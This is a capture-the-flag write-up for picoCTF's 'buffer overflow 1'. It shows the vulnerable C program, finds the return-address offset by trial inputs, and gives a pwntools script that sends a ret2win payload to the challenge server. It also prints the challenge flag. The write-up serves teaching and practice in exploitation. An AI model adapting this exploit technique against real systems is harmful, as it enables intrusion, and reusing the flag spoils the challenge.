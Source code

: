 # buffer overflow 1
#### Write-up author: [jon-brandy](https://github.com/jon-brandy)
## DESCRIPTION:
Control the return address Now we're cooking! 
You can overflow the buffer and return to the flag function in the [program](https://github.com/jon-brandy/CTF-WRITE-UP/blob/4b15b8791f8a6558c6fc8bfedeba343c9ab77ec7/Asset/buffer%20overflow%201/vuln). 
You can view source [here](https://github.com/jon-brandy/CTF-WRITE-UP/blob/9cda637bea2a85da46ba8dce3c9ccf131928092f/Asset/buffer%20overflow%201/vuln.c). And connect with it using 
`nc saturn.picoctf.net 63239`.
## HINTS:
1. Make sure you consider big Endian vs small Endian.
2. Changing the address of the return pointer can call different functions.
## STEPS:
1. First, download both file given.
2. Next, check the program, is it executeable or not.

![image](https://user-images.githubusercontent.com/70703371/184164409-dfc35fd8-6e24-4756-832e-de899e682792.png)

3. Seems we can make it executable and nicely it's not stripped, so we can see the function.
4. But before make it executeable, let's check are there any protection on the file.
5. Run -> `checksec --file vuln`.

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/184164974-2c09f927-035a-4b92-af20-35eaeca03ca3.png)

6. Seems like there's no protection, which means there's many solutions available here.

```
WE MAY:

Do bufferoverflow
Inject shellcode
````

7. Anyway let's view the source code.

> vuln.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); 
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE]; 
  gets(buf); 

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```

8. Seems like there's a vuln here.

![image](https://user-images.githubusercontent.com/70703371/187901057-afcd349f-4dfb-4a30-b46b-4df0dd29f0be.png)

9. Let's run the program and input 32 A's.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/187900683-18470f53-aee9-49e0-90e7-317b9d573753.png)

10. Well let's try 36 A's now.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/187902266-209e5aa4-6a52-483c-b8d2-5ca3ccea166d.png)

11. Try 40 now.

![image](https://user-images.githubusercontent.com/70703371/187902360-9bc7428d-07af-42c9-8763-fd016d9d4409.png)

12. We got segmentation fault, means the program just crashed. 
13. But let's try to add another 4 bytes -> 44 A's.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/187903022-47f70b6e-b9d1-4b42-842c-4a389eaa5dd7.png)

14. Again we got segmentation fault, but we jumped to different address now.
15. But when i tried to add another 4 bytes -> 48 A's, i got this output.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/187903590-68f676dc-7e25-40ee-8cd1-c80a29c7be5e.png)

16. Notice 0x41 represent -> 'A'.
17. Great now we know the point where we can control the return address.
18. Next to find the address of `win` function i used a tools called `Cutter`.

> COMMAND 

```sh
Cutter vuln
```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/187904538-6031f2c6-baf6-473a-bd92-163279f77d35.png)

19. Click the `sym.win`.

![image](https://user-images.githubusercontent.com/70703371/187904668-a1c26203-81da-4ad4-afe4-0310e42c2ab5.png)

![image](https://user-images.githubusercontent.com/70703371/187904851-06d7c870-4c20-4e59-b3ea-cf2cc2b30b9e.png)

> win address

```
0x080491f6
```

20. Based from the hint number 1 about endian, we know we can't display hexa bytes like this -> `0x080491f6`. We must display it in `Little-Endian`.

> ABOUT LITTLE ENDIAN

```
https://en.wikipedia.org/wiki/Endianness
```

21. So for the strings would be like this:

```py
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08'
```

22. For this solution i made this python script:

> SIMILIAR CONCEPT WITH RET2WIN

```py
import os
from pwn import *

os.system('clear')

sh = remote('saturn.picoctf.net', 63239)

sh.recvuntil('string: ')
p = b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08'
sh.sendline(p)


sh.interactive()
```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/187910840-49a1e938-d23d-40b3-ab23-e8241c105c67.png)

23. Finally, we got the flag!

## FLAG

```
picoCTF{addr3ss3s_ar3_3asy_c76b273b}
```

## LEARNING REFERENCES:

```
https://en.wikipedia.org/wiki/Endianness
```

